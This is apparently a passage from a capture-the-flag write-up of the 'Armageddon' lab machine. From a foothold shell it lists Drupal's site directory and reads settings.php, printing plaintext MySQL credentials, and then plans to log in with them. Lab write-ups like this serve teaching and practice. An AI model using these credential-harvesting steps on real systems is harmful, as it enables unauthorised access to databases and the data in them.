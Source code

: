```sh
dr-xr-xr-x. 3 apache apache   67 Dec  3  2020 default                                                                 
-rw-r--r--. 1 apache apache 2365 Jun 21  2017 example.sites.php                                                       

armageddon.htb>> ls -la sites/default                                                                                 
total 56                                                                                                              
dr-xr-xr-x. 3 apache apache    67 Dec  3  2020 .                                                                      
drwxr-xr-x. 4 apache apache    75 Jun 21  2017 ..                                                                     
-rw-r--r--. 1 apache apache 26250 Jun 21  2017 default.settings.php                                                   
drwxrwxr-x. 3 apache apache    37 Dec  3  2020 files                                                                  
-r--r--r--. 1 apache apache 26565 Dec  3  2020 settings.php                                                           
```

```php
armageddon.htb>> cat sites/default/settings.php

$databases = array (                                                                                                  
  'default' =>                                                                                                        
  array (                                                                                                             
    'default' =>                                                                                                      
    array (                                                                                                           
      'database' => 'drupal',                                                                                         
      'username' => 'drupaluser',                                                                                     
      'password' => 'CQHEy@9M*m23gBVj',                                                                               
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

We know there is MySQL running on the system locally, so let's authenticate with the Drupal credentials we found.

